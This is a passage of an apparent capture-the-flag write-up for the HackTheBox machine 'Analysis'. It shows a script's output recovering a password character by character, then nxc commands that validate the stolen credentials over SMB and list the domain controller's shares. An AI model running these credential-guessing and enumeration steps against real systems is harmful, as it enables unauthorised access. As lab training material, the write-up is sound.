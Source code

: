 Password found: `97NTtl*4QP96Bv` from the description field.

```bash
$ python3 pass.py                                                                                                                                 
Found character: 9                                                                                                                                  
Found character: 7                                                                                                                                  
Found character: N                                                                                                                                  
Found character: T                                                                                                                                  
Found character: t                                                                                                                                  
Found character: l                                                                                                                                  
Found character: *                                                                                                                                  
Found character: 4                                                                                                                                  
Found character: Q                                                                                                                                  
Found character: P                                                                                                                                  
Found character: 9                                                                                                                                  
Found character: 6
Found character: B
Found character: v
Found character: *

Found characters: 97NTtl*4QP96Bv
```

#### Validating account

The password was valid, but it did not get any useful information

```bash
$ nxc smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv'
SMB         10.10.11.250    445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.250    445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv 

$ nxc smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv' --shares
SMB         10.10.11.250    445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.250    445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv 
SMB         10.10.11.250    445    DC-ANALYSIS      [*] Enumerated shares
SMB         10.10.11.250    445    DC-ANALYSIS      Share           Permissions     Remark
SMB         10.10.11.250    445    DC-ANALYSIS      -----           -----------     ------
SMB         10.10.11.250    445    DC-ANALYSIS      ADMIN$                          Administration à distance
SMB         10.10.11.250    445    DC-ANALYSIS      C$                              Partage par défaut
SMB         10.10.11.250    445    DC-ANALYSIS      IPC$            READ            IPC distant
SMB         10.10.11.250    445    DC-ANALYSIS      NETLOGON        READ            Partage de serveur daccès 
SMB         10.10.11.250    445    DC-ANALYSIS      SYSVOL          READ            Partage de serveur daccès 
```
